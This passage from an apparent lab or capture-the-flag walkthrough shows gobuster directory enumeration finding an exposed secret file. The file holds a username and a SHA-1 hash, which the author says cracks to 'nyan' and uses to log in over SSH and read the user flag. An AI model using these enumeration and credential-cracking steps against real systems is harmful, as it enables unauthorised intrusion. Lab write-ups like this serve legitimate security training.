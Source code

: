 ```bash
[+] Timeout:        10s
===============================================================
2021/01/20 10:36:41 Starting gobuster
===============================================================
/index.html (Status: 200)
[ERROR] 2021/01/20 10:38:31 [!] Get http://10.10.204.89/secret/children.bak: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/01/20 10:39:23 [!] Get http://10.10.204.89/secret/Development.bak: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/01/20 10:39:30 [!] Get http://10.10.204.89/secret/364.jpg: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2021/01/20 10:40:37 [!] Get http://10.10.204.89/secret/020.jpeg: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/secret.txt (Status: 200)
```

Let's check `/secre.txt`. We got a username and hashed password!

```
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```

Let's crack the hash. It's `nyan` with hash SHA-1. 

#### Gaining Access
Since we have the username and password, let's `ssh` to the machine.

```bash
$ ssh nyan@10.10.204.89                      
The authenticity of host '10.10.204.89 (10.10.204.89)' can't be established.
ECDSA key fingerprint is SHA256:haqegvkQqmIEEzS0Mcd+NUsONboBQ6z3wQSwq+aj5Es.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.204.89' (ECDSA) to the list of known hosts.
nyan@10.10.204.89's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Dec 21 08:37:54 2019
nyan@ubuntu:~$
```

user.txt:

```bash
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt
REDACTED
```

#### Escalation
Let's check sudo privileges.
